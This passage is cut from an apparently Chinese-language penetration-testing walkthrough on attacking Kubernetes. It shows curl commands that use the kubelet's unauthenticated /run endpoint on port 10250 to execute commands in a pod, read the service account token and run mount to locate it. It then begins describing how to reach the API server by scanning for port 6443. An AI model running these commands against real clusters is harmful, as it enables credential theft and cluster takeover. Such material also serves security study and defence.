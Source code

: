 ```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1699842580-9beb164180755f7c1f7468c5bc81c202.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170949-3ff2c61a-7316-1.png)  
如果token不在/var/run/secrets/kubernetes.io/serviceaccount/token，那么可以通过mount命令来查找

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=mount"
```

[![](assets/1699842580-9766614fbddbae6845eb5e971261884d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171017-50ebfe0a-7316-1.png)  
Step 5：获得master访问权  
接下来可以尝试获得master(api server)的访问权限，默认情况下api server开放的端口为6443，所以可以通过扫描同个网段开放6443的主机来挨个尝试，除了这种方法还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：
